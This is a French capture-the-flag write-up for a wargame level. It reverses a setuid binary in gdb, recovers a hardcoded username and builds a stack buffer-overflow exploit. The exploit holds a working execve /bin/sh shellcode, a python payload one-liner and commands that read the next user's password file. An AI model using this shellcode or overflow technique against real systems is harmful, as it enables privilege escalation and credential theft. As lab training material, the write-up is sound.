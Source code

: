 ## Comportement
- J'ai des droits `level01` que je peux vérifier en tapant `whoami`
- Un binaire est présent avec des droits différents : `-rwsr-s---+ 1 level02 users   7360 Sep 10  2016 level01*`
En exécutant le binaire (`./level01`), on observe:
- qu'il attend un username de notre part.
- qu'il exit si l'username n'est pas le bon.
- qu'il ne segfault pas meme si l'username est tres long.
```shell
********* ADMIN LOGIN PROMPT *********
Enter Username: cuz
verifying username....

nope, incorrect username...
```


## Analyse
En analysant le binaire (`gdb ./level01`) on observe:
- Il n'y a pas qu'un username qui est demande, mais aussi probablement un mot de passe. Logique.
    ```shell
    (gdb) i func
    All defined functions:

    Non-debugging symbols:
    ...
    0x08048464  verify_user_name
    0x080484a3  verify_user_pass
    ...
    ```
- Dans la fonction `verify_user_name` tout d'abord on constate qu'une comparaison est faite entre une variable et une string en dur :
    ```shell
    (gdb) disas verify_user_name
    Dump of assembler code for function verify_user_name:
    0x08048478 <+20>:	mov    $0x804a040,%edx # variable 
    0x0804847d <+25>:	mov    $0x80486a8,%eax # "dat_wil"
    0x08048482 <+30>:	mov    $0x7,%ecx # 7 caracteres
    0x08048487 <+35>:	mov    %edx,%esi
    0x08048489 <+37>:	mov    %eax,%edi
    0x0804848b <+39>:	repz cmpsb %es:(%edi),%ds:(%esi) # strncmp
    ```
- On trouve la valeur de la string ainsi et on verifie : 
    ```shell
    (gdb) x/s 0x804a040
    0x804a040 <a_user_name>:	 ""
    (gdb) x/s 0x80486a8 
    0x80486a8:	 "dat_wil"
    ```
    ```shell
    ********* ADMIN LOGIN PROMPT *********
    Enter Username: dat_wil
    verifying username....

    Enter Password: 
    ```
Il ne nous reste plus qu'a trouver le mot de passe.
- On trouve le meme fonctionnement dans la fonction `verify_user_pass` avec la sring en dur `admin` mais en regardant le code dans `main()` on constate que meme en rentrant le bon mot de passe, tous les chemins passent par la case : `nope, incorrect password...`. De plus, aucun appel a un shell n'est realise dans le code. Il va donc falloir user d'un shellcode et d'un buffer overflow sur `fgets()`


## Résolution
- Il faut trouver l'offset de l'`eip` (le pointeur du jeu d'instruction en cours) pour savoir de combien il faut overflow le buffer. Pour cela on utilise un offset pattern generator qui nous indique que l'offset est de 80 : 
    ```shell
    (gdb) run
    Starting program: /home/users/level01/level01 
    ********* ADMIN LOGIN PROMPT *********
    Enter Username: dat_wil
    verifying username....

    Enter Password: 
    Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
    nope, incorrect password...


    Program received signal SIGSEGV, Segmentation fault.
    0x37634136 in ?? () # egal a 80
    ```
- On prend un shellcode, ici 28 octets : 
    ```shell
    "\x31\xdb\x31\xd2\x31\xc9\x51\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x31\xc0\xb0\x0b\x83\xe4\xf0\xcd\x80"
    ```
- On gere notre padding : 
    - Premier buffer : il faut remplir les 256 octets de fgets(a_user_name, 256, stdin):
        - `dat_wil` :	7 octets
        - shellcode :	28 octets
        - A*221 :		221 octets

    - Deuxième buffer:
        - A*79 :		79 octets
        - EIP :		4 octets = l'adresse de la variable `a_user_name` + 7 octets, pour ne pas prendre en compte `dat_wil`.
- On craft notre payload : 
    ```shell
    python -c 'print "dat_wil"+"\x31\xdb\x31\xd2\x31\xc9\x51\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x31\xc0\xb0\x0b\x83\xe4\xf0\xcd\x80"+"A"*221+"A"*79+"\x47\xa0\x04\x08"' > /tmp/payload
    ```
- On execute : 
    ```shell
    cat /tmp/payload - | ./level01
    ```
- Un shell s'ouvre avec de nouveaux privilèges : en effet, si l'on tape `whoami`, on obtient `level02`.
- Il ne reste plus qu'à :
  - récupérer le password (`cat /home/users/level02/.pass`)
  - quitter le shell (`exit`)
  - et passer au level02 (`su level02`) en renseignant ce password.
